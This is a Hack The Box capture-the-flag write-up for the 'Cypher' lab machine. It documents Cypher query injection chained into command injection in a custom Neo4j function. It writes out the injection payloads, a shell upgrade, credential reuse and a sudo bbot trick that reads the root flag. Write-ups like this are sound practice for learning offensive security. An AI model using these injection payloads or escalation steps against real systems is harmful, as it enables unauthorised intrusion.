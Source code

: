 ```yaml
---
title: "Cypher -HTB"
date: 2025-04-19 14:00:00 +0200
categories: [HTB]
tags: [Linux, priv-escalation, initial access, cypher]
toc: true
comments: true
image: ./assets/img/attachments/cypher1.png
---
```



> 🧠 It's the beginning of the journey.

This is **Machine 1 of 1000** — part of my mission to become a stronger red teamer by solving and documenting every challenge I encounter.

In this writeup, I’ll walk you through how I rooted the **Cypher** machine from Hack The Box, explaining each step from enumeration to exploitation.
### Full port scanning
The first step is to perform a full scan using Nmap to identify open ports and services. However, since a full scan can take a long time, we can start by using the `-F` flag to scan the 1,000 most common ports. Until the full scan finishes.
``` shell
sudo nmap 10.10.11.57 -F -Pn -T5 -sV 
```
![Whatever Alt Text You Want](/assets/img/attachments/cypher2.png)

from here we get that http post is open, so next step is to check this website. BUT accessing the ip from browser alone wont work, since the ip must be added to /etc/hosts

![Whatever Alt Text You Want](/assets/img/attachments/cypher3.png)

Now that we got the domain name, lets add it to /etc/hosts

![Whatever Alt Text You Want](/assets/img/attachments/cypher4.png)
![Whatever Alt Text You Want](/assets/img/attachments/cypher5.png)

This is how the webpage looked like, next step is content discovery for this domain, and until the fuzzing process is done i will test SQLi at this login form.
```shell
ffuf -u http://cypher.htb/FUZZ -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -recursion -recursion-depth 2
```
![Whatever Alt Text You Want](/assets/img/attachments/cypher6.png)

I got this error which disclose that the database used is Neoj4, and a critical information, that the username is directly added to the cypher query without validations.

![Whatever Alt Text You Want](/assets/img/attachments/cypher7.png)

And fuzzing result shows this directory, so lets check what does it contains

![Whatever Alt Text You Want](/assets/img/attachments/cypher8.png)

Which look interesting, after downloading this jar file and extracted its content

![Whatever Alt Text You Want](/assets/img/attachments/cypher9.png)

found those classes and the suspicious one is CustomFunction

![Whatever Alt Text You Want](/assets/img/attachments/cypher10.png)

Since its compiled file and not human readable, I will use online decompiler to make it readable.

![Whatever Alt Text You Want](/assets/img/attachments/cypher11.png)

Here we can see the vulnerable point, where the url is inserted into the curl command without sanitization or validation beyond checking for http:// or https:// prefixes.

![Whatever Alt Text You Want](/assets/img/attachments/cypher12.png)

Exploiting this vulnerability in url didn't work 
### From this point we have two methods to gain the initial access:
**Method one**:

from the point that the username is inserted directly to the cypher query, we can create custom query, that ends the username field and call the vulnerable function getURLStatusCode
`"username":"') CALL getUrlStatusCode('http://127.0.0.1;whoami') // '"`

![Whatever Alt Text You Want](/assets/img/attachments/cypher13.png)
![Whatever Alt Text You Want](/assets/img/attachments/cypher14.png)

its important here to keep in mind the response time.

![Whatever Alt Text You Want](/assets/img/attachments/cypher15.png)

which proves the blind command injection vulnerability here.
```json
{"username": "admin' RETURN h.value AS value UNION CALL custom.getUrlStatusCode('127.0.0.1;sleep 10') YIELD statusCode AS value RETURN value; //",

"password":"admin"}
```
Now, its time to create the reverse shell payload, and setting a listener at the same time

![Whatever Alt Text You Want](/assets/img/attachments/cypher16.png)

whow!! Worked!

![Whatever Alt Text You Want](/assets/img/attachments/cypher17.png)

and we got our initial access

**Method 2**:

![Whatever Alt Text You Want](/assets/img/attachments/cypher18.png)

Taking the machine as hint, we find that the endpoint /cypher is exposed, and as showen in the image, there is a missing parameter for it called query, so would query work as our vulnerable point?

![Whatever Alt Text You Want](/assets/img/attachments/cypher19.png)

lets craft the payload passed on cypher syntax

![Whatever Alt Text You Want](/assets/img/attachments/cypher20.png)

This is the indication that this is an injectable parameter for us, next step is to exploit it using the vulnerable class mentioned before.

`/api/cypher?query=CALL%20custom.getUrlStatusCode('http://127.0.0.1;id')`

![Whatever Alt Text You Want](/assets/img/attachments/cypher21.png)

And done! back to the initial access part:
To make the shell mor usable and interactive

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

![Whatever Alt Text You Want](/assets/img/attachments/cypher22.png)

Here we find a saved credentials at this file so lets do password spraying here!

![Whatever Alt Text You Want](/assets/img/attachments/cypher23.png)

Using the found password we gained access using ssh as graphasm user.

## Privilege Escalation
![Whatever Alt Text You Want](/assets/img/attachments/cypher24.png)

This user has a root privilage on bbot, which is a tool as we see

![Whatever Alt Text You Want](/assets/img/attachments/cypher25.png)

Next step is either to use it to execute different commands, or to read the root.txt file with it

`sudo /usr/local/bin/bbot -cy /root/root.txt --debug 2>&1 | tee output.log
`
![Whatever Alt Text You Want](/assets/img/attachments/cypher26.png)

We were able to read the root content file using yara rules, and ROOTED!!

